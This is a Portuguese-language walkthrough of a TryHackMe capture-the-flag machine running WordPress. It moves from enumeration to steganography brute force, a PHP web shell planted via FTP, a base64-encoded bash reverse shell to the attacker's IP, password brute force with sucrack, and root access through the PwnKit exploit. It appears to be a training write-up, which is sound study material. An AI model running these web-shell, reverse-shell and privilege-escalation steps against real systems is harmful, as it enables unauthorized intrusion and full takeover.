





# tryhacker - Different CTF

Estou conectado na VPN e usando o Kali linux, além disso, criei um diretório com o nome **differentCTF** no meu kali, todos os arquivos que forem necessário usar estão no diretório que criei no kali.

## Enumeração

Iremos começar criando a variável **ipCTF** com o ip da máquina vítima, então no terminal do kali:

```shell
export ipCTF=10.10.15.189
```

### nmap

Iremos usar o comando:

```shell
sudo nmap -sSVC -Pn -vvv $ipCTF
```

resultado:

```shell
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 60 vsftpd 3.0.3
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Hello World &#8211; Just another WordPress site
|_http-generator: WordPress 5.6
Service Info: Host: 127.0.1.1; OS: Unix
```

Como a porta 21 está aberta iremos verificar se é possível acessa-lá usando os métodos **ftp**. Mas não conseguimos nenhum resultado interessante, então iremos para os próximos passos. Podemos ver que a aplicação foi gerada pelo wordpress, então será necessário usar o **Wpscan** para ajudar nas buscas, além disso, também iremos usar o **Nuclei**.

### Nuclei

O resultado do scan via **Nuclei** foi:

```shell
[CVE-2019-12616] [http] [medium] http://10.10.15.189/phpmyadmin/ [4.6.6]
[CVE-2019-12616] [http] [medium] http://10.10.15.189/phpmyadmin/ [4.6.6]
[database-error] [http] [info] http://10.10.15.189
[phpmyadmin-panel] [http] [info] http://10.10.15.189/phpmyadmin/ [4.6.6deb5ubuntu0.5]
[phpmyadmin-panel] [http] [info] http://10.10.15.189/phpmyadmin/ [4.6.6deb5ubuntu0.5]
[wordpress-readme-file] [http] [info] http://10.10.15.189/readme.html
[wordpress-readme-file] [http] [info] http://10.10.15.189/readme.html
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://10.10.15.189
[http-missing-security-headers:referrer-policy] [http] [info] http://10.10.15.189
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://10.10.15.189
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://10.10.15.189
[http-missing-security-headers:strict-transport-security] [http] [info] http://10.10.15.189
[http-missing-security-headers:content-security-policy] [http] [info] http://10.10.15.189
[http-missing-security-headers:x-content-type-options] [http] [info] http://10.10.15.189
[http-missing-security-headers:clear-site-data] [http] [info] http://10.10.15.189
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://10.10.15.189
[http-missing-security-headers:permissions-policy] [http] [info] http://10.10.15.189
[http-missing-security-headers:x-frame-options] [http] [info] http://10.10.15.189
[waf-detect:apachegeneric] [http] [info] http://10.10.15.189/
[wordpress-akismet:outdated_version] [http] [info] http://10.10.15.189/wp-content/plugins/akismet/readme.txt [4.1.7] [last_version="5.3"]
[wp-license-file] [http] [info] http://10.10.15.189/license.txt
[wordpress-directory-listing] [http] [info] http://10.10.15.189/wp-includes/
```

temos várias informações interessante que podemos explorar, mas para focar iremos olhar para **phpmyadmin-panel**.

### ffuf

Para encontrar diretórios.

```shell
ffuf -w ~/ferramentasPentest/wordlists-scan/directory-list-2.3-medium.txt  -u http://$ipCTF/FUZZ
```

nada de muito interessante foi encontrado.

Para encontrar arquivos:

```shell
ffuf -w ~/ferramentasPentest/wordlists-scan/SecLists/Discovery/Web-Content/raft-medium-files.txt -u http://$ipCTF/FUZZ
```



Temos o diretório **announcements**. Temos o seguinte resultado:



tem uma wordlist e uma imagem, iremos fazer o download delas, usando o wget. Iremos usar o **stegcracker** para descobrir se tem alguma na mensagem oculta na imagem. o stegcracker faz um ataque de força bruta para descobrir a senha do arquivo e depois cria uma saída com as informações

```shell
stegcracker austrailian-bulldog-ant.jpg wordlist.txt
```

Usando o comando **cat** para ver conteúdo do arquivo de saída:

```shell
cat austrailian-bulldog-ant.jpg.out
```

note que a informação está em base64, logo:

```shell
cat austrailian-bulldog-ant.jpg.out | base64 -d
```

Temos o login e senha do serviço ftp.

## Exploração

Para começar a nossa exploração no sistema iremos acessar o **ftp**. Com o acesso realizado com sucesso, listaremos os arquivos com o comando **ls**.



vamos tentar realizar uma abordagem diferente, vou add a seguinte linha no arquivo **wp-login.php**:

```shell
<?php system($_GET["C"]); ?>
```

para isso, iremos baixar o arquivo e editar ele, posteriormente iremos subir para o servidor ftp.

```shell
ftp> get wp-login.php
```

e para realizar o upload do arquivo

```shell
ftp> get wp-login.php
```

Agora no navegador, iremos chamar a seguinte url:

```shell
http://adana.thm/wp-login.php?C=pwd;
```

Não aconteceu nada, então tem algum detalhe, olhando novamente nos arquivos, existe um arquivo muito interessante o **wp-config.php**, iremos baixar ele para verificar se existe algo:

```shell
> get wp-config.php
```

dessa forma o arquivo é baixado para o nosso computador. Esse arquivo traz informações de acesso ao painel do php admin. Colentando essas informações e usando a url encontrada pelo nuclei, iremos acessar em nosso navegador:

```shell
http://10.10.15.189/phpmyadmin/ 
```

iremos procurar por  **wp-options** em **phpmyadmin1**. Tem a informação de um subdomínio (`**********`), iremos usar isso, dessa forma, será necessário editar novamente o **hosts** do kali. Coloque o ip da máquina e o subdomínio no arquivo hosts.

Agora sim, iremos novamente acessar a home, só que dessa vez, passando o subdomínio:

```shell
http://**********.adana.thm/index.php?C=ls
```

note que será listado dos os arquivos, então podemos criar um reverse shell, na máquina linux rode o netcat

```shell
nc -lnvp 1234
```

use o site: https://www.revshells.com/ para criar o seu reverse shell, no meu caso

```shell
http://**********.adana.thm/index.php?C=echo+"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTcuODUuMTEwLzEyMzQgMD4mMQ=="+|+base64+-d+|+bash
```

Conseguimos realizar o reverse shell, para achar a primeira flag vá em /var/www/html.

Iremos usar o método de força bruta para ter acesso ao usuário, para isso iremos usar uma ferramenta **sucrack**. Para isso iremos realizar o download em nossa máquina linux e depois subir o servidor em python.

```shell
wget http://archive.ubuntu.com/ubuntu/pool/universe/s/sucrack/sucrack_1.2.3-5_amd64.deb
```

(se não der certo baixe direto do site: http://archive.ubuntu.com/ubuntu/pool/universe/s/sucrack/sucrack_1.2.3-5_amd64.deb)

```shell
python3 -m http.server 8000
```

na máquina da vítima

```shell
wget http://10.17.85.110:8000/sucrack_1.2.3-5_amd64.deb
```

agora

```shell
dpkg -x sucrack_1.2.3-5_amd64.deb c
```

agora iremos copiar a wordlist para o diretório do **tmp**.

```shell
cp /var/www/html/announcements/wordlist.txt /tmp 
```

pelo padrão de senha que vimos anteriormente: 123adanacrack, temos o padrão 123adana, então iremos add esse padrão na wordlist, para fazer isso:

```shell
sed 's/^/123adana/' wordlist.txt > novawordlist.txt
```

então iremos rodar executável no diretório **sucrack**:

```shell
bash sucrack/usr/bin/sucrack -w 100 -b 500 -u hakanbey novawordlist.txt
```

agora só esperar uns minutos. Com a senha em mãos, iremos primeiro melhorar o shell:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

então será necessário usar o comando:

```shell
su hakanbey
```

Navegando até o diretório do usuário temos o arquivo **user.txt** que é a outra flag. Iremos agora realizar a escalação de privilégio. Usaremos LES: Linux privilege escalation auditing tool (https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh). Então usando o comando **wget** para baixar o arquivo na nossa máquina linux. Ainda com nosso servidor aberto iremos enviar o arquivo para a máquina da vítima.

```shell
wget http://10.17.85.110:8000/linux-exp.sh
```

Encontramos várias vulnerabilidades, conforme é mostrado a seguir:




Iremos explorar a primeira vulnerabilidade: **PwnKit**. Para saber mais veja: https://github.com/ly4k/PwnKit. Novamente, na máquina linux iremos fazer o download no nosso diretório:

```shell
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
```

na máquina da vítima iremos importar esse arquivo usando o comando:

```shell
wget http://10.17.85.110:8000/PwnKit
```

após isso, iremos usar o comando:

```shell
chmod +x PwnKit
```

Por fim, só executar:

```shell
./PwnKit
```

Agora só navegar no repositório **/root** a flag é **root.txt**.